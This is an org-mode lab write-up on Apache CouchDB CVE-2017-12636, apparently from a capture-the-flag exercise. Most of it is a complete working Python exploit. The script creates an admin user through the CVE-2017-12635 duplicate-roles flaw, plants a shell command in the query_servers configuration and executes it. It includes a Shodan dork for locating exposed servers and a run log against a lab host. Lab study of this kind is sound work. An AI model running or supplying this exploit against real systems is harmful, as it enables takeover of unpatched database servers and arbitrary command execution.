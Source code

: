 #+title: CouchDB CVE-2017-12636
#+author: gabriel

* intro
Apache CouchDB is an open-source, document-oriented NoSQL database that provides storage and querying of JSON documents, with a RESTful API accessible via HTTP/HTTPS.

This laboratory contains the CVE-2017-12636 vulnerability found in Apache CouchDB versions 1.7.0 and 2.x before 2.1.1. This vulnerability allows attackers to specify paths for operating system-level binaries when configuring the CouchDB server via HTTP(S), which are subsequently launched by CouchDB. This enables attackers to run arbitrary shell commands as the CouchDB user, including downloading and executing scripts from the public internet.

What is the secret in the /secret.txt file?

* exploit
#+begin_src python
# Title: Apache CouchDB < 2.1.0 - Remote Code Execution
# Author: Cody Zacharias
# Shodan Dork: port:5984
# Vendor Homepage: http://couchdb.apache.org/
# Software Link: http://archive.apache.org/dist/couchdb/source/1.6.0/
# Version: <= 1.7.0 and 2.x - 2.1.0
# Tested on: Debian
# CVE : CVE-2017-12636
# References:
# https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
# https://blog.trendmicro.com/trendlabs-security-intelligence/vulnerabilities-apache-couchdb-open-door-monero-miners/

# Proof of Concept: python exploit.py --priv -c "id" http://localhost:5984

#!/usr/bin/env python
from requests.auth import HTTPBasicAuth
import argparse
import requests
import re
import sys

def getVersion():
    version = requests.get(args.host).json()["version"]
    return version

def error(message):
    print(message)
    sys.exit(1)

def exploit(version):
    with requests.session() as session:
        session.headers = {"Content-Type": "application/json"}

        # Exploit privilege escalation
        if args.priv:
            try:
                payload = '{"type": "user", "name": "'
                payload += args.user
                payload += '", "roles": ["_admin"], "roles": [],'
                payload += '"password": "' + args.password + '"}'

                pr = session.put(args.host + "/_users/org.couchdb.user:" + args.user,
                    data=payload)

                print("[+] User " + args.user + " with password " + args.password + " successfully created.")
            except requests.exceptions.HTTPError:
                error("[-] Unable to create the user on remote host.")

        session.auth = HTTPBasicAuth(args.user, args.password)

        # Create payload
        try:
            if version == 1:
                session.put(args.host + "/_config/query_servers/cmd",
                        data='"' + args.cmd + '"')
                print("[+] Created payload at: " + args.host + "/_config/query_servers/cmd")
            else:
                host = session.get(args.host + "/_membership").json()["all_nodes"][0]
                session.put(args.host + "/_node/" + host + "/_config/query_servers/cmd",
                        data='"' + args.cmd + '"')
                print("[+] Created payload at: " + args.host + "/_node/" + host + "/_config/query_servers/cmd")
        except requests.exceptions.HTTPError as e:
            error("[-] Unable to create command payload: " + e)

        try:
            session.put(args.host + "/god")
            session.put(args.host + "/god/zero", data='{"_id": "HTP"}')
        except requests.exceptions.HTTPError:
            error("[-] Unable to create database.")

        # Execute payload
        try:
            if version == 1:
                session.post(args.host + "/god/_temp_view?limit=10",
                        data='{"language": "cmd", "map": ""}')
            else:
                session.post(args.host + "/god/_design/zero",
                        data='{"_id": "_design/zero", "views": {"god": {"map": ""} }, "language": "cmd"}')
            print("[+] Command executed: " + args.cmd)
        except requests.exceptions.HTTPError:
            error("[-] Unable to execute payload.")

        print("[*] Cleaning up.")

        # Cleanup database
        try:
            session.delete(args.host + "/god")
        except requests.exceptions.HTTPError:
            error("[-] Unable to remove database.")

        # Cleanup payload
        try:
            if version == 1:
                session.delete(args.host + "/_config/query_servers/cmd")
            else:
                host = session.get(args.host + "/_membership").json()["all_nodes"][0]
                session.delete(args.host + "/_node" + host + "/_config/query_servers/cmd")
        except requests.exceptions.HTTPError:
            error("[-] Unable to remove payload.")

def main():
    version = getVersion()
    print("[*] Detected CouchDB Version " + version)
    vv = version.replace(".", "")
    v = int(version[0])
    if v == 1 and int(vv) <= 170:
        exploit(v)
    elif v == 2 and int(vv) < 211:
        exploit(v)
    else:
        print("[-] Version " + version + " not vulnerable.")
        sys.exit(0)

if __name__ == "__main__":
    ap = argparse.ArgumentParser(
            description="Apache CouchDB JSON Remote Code Execution Exploit (CVE-2017-12636)")
    ap.add_argument("host", help="URL (Example: http://127.0.0.1:5984).")
    ap.add_argument("-c", "--cmd", help="Command to run.")
    ap.add_argument("--priv", help="Exploit privilege escalation (CVE-2017-12635).",
        action="store_true")
    ap.add_argument("-u", "--user", help="Admin username (Default: guest).",
            default="guest")
    ap.add_argument("-p", "--password", help="Admin password (Default: guest).",
            default="guest")
    args = ap.parse_args()
    main()
#+end_src

#+begin_src sh
(venv) [20:49][]~/capt/cves/CVE-2017-12636:main ✗ ✮ python3 exploit.py --priv --cmd
ls http://172.20.1.187:5984/
[*] Detected CouchDB Version 1.6.0
[+] User guest with password guest successfully created.
[+] Created payload at: http://172.20.1.187:5984//_config/query_servers/cmd
#+end_src

#+RESULTS:
